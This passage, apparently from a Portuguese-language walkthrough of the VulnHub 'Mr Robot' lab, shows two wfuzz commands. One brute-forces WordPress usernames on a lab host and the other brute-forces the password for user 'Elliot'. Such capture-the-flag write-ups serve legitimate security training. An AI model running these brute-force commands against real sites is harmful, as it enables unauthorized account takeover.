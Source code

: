 ```bash
wfuzz -c --hl 59 -w fsocity_performatica.txt -b "s_fid=5C8C0DA9C46FAD2D-0CC0910B66C5EE08" -b "s_nr=1619060883629" -b "s_cc=true" -b "s_sq=%5B%5BB%5D%5D" -b "wordpress_test_cookie=WP+Cookie+check" -d "log=FUZZ&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.110.6%2Fwp-admin%2F&testcookie=1" http://192.168.110.6/wp-login
```

![](/assets/img/Vulnhub/mrRobot/wfuzz-login.png)



Agora que encontramos 03 opcoes possiveis para o login vamos descobrir a senha. Podemos aproveitar o mesmo comando anterior, alterando o filtro e a variavel que vamos realizar o fuzzy (pwd)

```bash
wfuzz -c --hl 58 -w fsocity_performatica.txt -b "s_fid=5C8C0DA9C46FAD2D-0CC0910B66C5EE08" -b "s_nr=1619060883629" -b "s_cc=true" -b "s_sq=%5B%5BB%5D%5D" -b "wordpress_test_cookie=WP+Cookie+check" -d "log=Elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.110.6%2Fwp-admin%2F&testcookie=1" http://192.168.110.6/wp-login
```

![](/assets/img/Vulnhub/mrRobot/wfuzz-senha.png)
